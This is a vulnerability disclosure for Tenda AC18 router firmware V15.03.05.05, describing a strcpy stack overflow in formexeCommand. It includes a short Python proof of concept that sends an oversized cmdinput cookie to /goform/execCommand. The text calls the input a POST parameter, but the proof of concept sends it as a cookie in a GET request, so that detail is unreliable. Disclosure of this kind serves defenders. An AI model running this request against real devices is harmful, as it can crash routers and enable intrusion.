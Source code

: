 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formexeCommand` function. The `src` variable receives the `cmdinput` parameter from a POST request and is later assigned to the `s` variable, which is fixed at 512 bytes. However, since the user can control the input of `cmdinput`, the statement `strcpy(s, src);` can cause a buffer overflow. The user-provided `cmdinput` can exceed the capacity of the `s` array, triggering this security vulnerability.

![image-20240308164307690](formexeCommand.assets/image-20240308164307690.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"cmdinput=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

![image-20240308164235773](formexeCommand.assets/image-20240308164235773.png)